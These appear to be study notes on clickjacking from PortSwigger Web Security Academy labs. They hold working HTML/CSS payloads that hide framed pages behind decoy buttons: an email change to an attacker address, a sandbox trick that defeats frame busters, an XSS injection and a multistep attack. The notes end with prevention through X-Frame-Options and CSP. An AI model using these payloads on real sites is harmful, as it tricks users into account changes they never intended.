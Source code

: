 # Web application security

- [Source](portswigger.net)

## Clickjacking

- UI based attack, user doesn't see the actual button/link they are clikcing on. Can be a full website hidden from the user embedded inside an iframe

- Differs from a CSRF attack, request not forged without user knowledge

- Use CSS to obscure something and let user click the button

- basic clickjacking

```html

  <style>
   iframe {
       position:relative;
       width: 700px;
       height: 500px;
       opacity: 0.00001;
       z-index: 2;
   }
   div {
       position:absolute;
       top: 300px;
       left: 60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://ace71f3e1e0583a180134485008600bf.web-security-academy.net/account"></iframe>
```

- Clickjacking when url param based form filling is allowed, ie, a GET is done and then a POST action on user interaction

```html
<style>
iframe {
 position: relative;
 width: 700px;
 height: 500px;
 opacity: 0.1;
 z-index: 2;
}

div {
 position:absolute;
 top: 425px;
 left: 80px;
 z-index: 1;
}
</style>
<div>Click me</div>
<iframe src="https://acb01f191e41fd11802a0456009600e7.web-security-academy.net/email?email=hacker@attacker-website.com"></iframe>
 ```

- Clickjacking is posible when websites can be framed, ie iframe
- Frame busting sciprts are employed by browsers to make sure not websites are embedded in another website are not invisible and make them unclickable
  - check and enforce that the current application window is the main or top window,
  - make all frames visible,
  - prevent clicking on invisible frames
  - intercept and flag potential clickjacking attacks to the user
- To workaround this, iframe `sandbox` attr can be set `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window

```<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>```

- Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site

- Clickjacking when browser/website is implementing a frame buster

```html
<style>
iframe {
 position: relative;
 width: 700px;
 height: 500px;
 opacity: 0.0001;
 z-index: 2;
}

div {
 position:absolute;
 top: 400px;
 left: 80px;
 z-index: 1;
}
</style>
<div>Click me</div>
<iframe src="https://ac501f021f1c595680911ada00400048.web-security-academy.net/email?email=hacker@attacker-website.com"
sandbox="allow-forms"></iframe>
```

- clickjacking and XSS attack

```html
<style>
iframe {
 position: relative;
 width: 700px;
 height: 500px;
 opacity: 0.0001;
 z-index: 2;
}

div {
 position:absolute;
 top: 400px;
 left: 80px;
 z-index: 1;
}
</style>
<div>Click me</div>
<iframe src="https://ac501f021f1c595680911ada00400048.web-security-academy.net/feedback??name=<img src=1 onerror=alert(1)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

- Clickjacking, multistep

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:275px;
       left:50px;
       z-index: 1;
   }
   .secondClick {
       left:200px;
   }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://acd31f6b1eacfdd2804c14f80087006c.web-security-academy.net/account"></iframe>
```

## Prevention

### X-Frame-Options

- Provides website owner control over use of iframes/objects
  - X-Frame_Options: deny -- No ifrmaes
  - X-Frame_Options: sameorigin -- Only from same origin
  - X-Frame_Options: allow-from `url or domain allowed to be framed`

- Returned from server

### Content Security Policy (CSP)

- A detection and prevention mechanism applied at the web server level, returned as a header `Content-Security-Policy: _string of policy directives_`
  - Content-Security-Policy: frame-ancestors 'none'; (X-Frame_Options: deny)
  - Content-Security-Policy: frame-ancestors 'self'; (X-Frame_Options: sameorigin)
  - Content-Security-Policy: frame-ancestors `websiteAddress/domain`; (allow from)
